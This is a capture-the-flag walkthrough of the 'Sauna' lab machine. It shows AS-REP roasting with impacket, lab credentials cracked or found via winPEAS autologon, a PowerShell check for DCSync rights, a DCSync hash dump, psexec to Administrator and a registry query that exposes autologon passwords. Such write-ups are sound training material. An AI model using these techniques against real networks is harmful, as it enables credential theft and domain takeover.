



# Sauna

### Reconnaissance

[Nmap scan](./sauna.nmap)

**port 53**

Simple DNS Plus (check)

Discovered domain name `EGOTISTICAL-BANK.LOCAL` from nmap scan

`dig EGOTISTICAL-BANK.LOCAL @10.10.10.175`



DNS queries allowed

Querying ANY records for the domain shows two additional subdomains, `sauna` and `hostmaster`

`dig ANY EGOTISTICAL-BANK.LOCAL @10.10.10.175`



Zone transfer failed on the domain and subdomains

**port 80**

Egotistical Bank's website running on Microsft IIS 10.0

`curl -IL http://10.10.10.175`



gobuster didn't find anything useful on any of the subdomains

Contact form returns a 405 when submitting on all domains and subdomains

Pictures of team members with names:
- Fergus Smith
- Hugo Bear
- Steven Kerb
- Shaun Coins
- Bowie Taylor
- Sophie Driver

**port 389**

Discovered object `Hugo Smith` using ldapsearch, doesn't appear to be a valid user

**port 445**

Anonymous access enabled, no shares visible

**port 5985**

WinRM

### Initial Access

Generate plausible usernames from the team members on the website using a python script ([usernames.py](./usernames.py)) 
and ASREPROAST

```bash
python3 ./usernames.py "Fergus Smith,Hugo Bear,Steven Kerb,Shaun Coins,Bowie Taylor,Sophie Driver" > unames.txt
for u in $(cat unames.txt); do impacket-GetNPUsers egotistical-bank.local/"$u" -no-pass -dc-ip 10.10.10.175;done
```

ASREPROAST and crack hash

fsmith:Thestrokes23

### Privilege Escalation

Manually check for privileges required for DCSync (article [here](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/dump-password-hashes-from-domain-controller-with-dcsync)):

```
$user = "username"
(Get-Acl "ad:\dc=domain,dc=local").Access | ? {$_.IdentityReference -match $user -and ($_.ObjectType -eq "1131f6aa-9c07-11d1-f79f-00c04fc2dcd2" -or $_.ObjectType -eq "1131f6ad-9c07-11d1-f79f-00c04fc2dcd2" -or $_.ObjectType -eq "89e95b76-444d-4c62-991a-0facbeda640c" ) }
```

Autologon creds found with winPEAS

svc_loanmanager:Moneymakestheworldgoround!

Account name had changed to svc_loanmgr but password works

DS-Replication-Get-Changes and DS-Replication-Get-Changes-All privileges on svc_loanmgr

DCSync attack to dump domain user hashes

psexec as Administrator

### Lessons Learned

- When looking at websites hosted on the target look at every page
- Create user wordlists from target employee's names
- Autologon exposes passwords (WinPEAS or by querying registry `reg query "HKEY_LOCAL_MACHINE\SOFTWARE\MICROSOFT\WINDOWS NT\CURRENTVERSION\WINLOGON"
`)
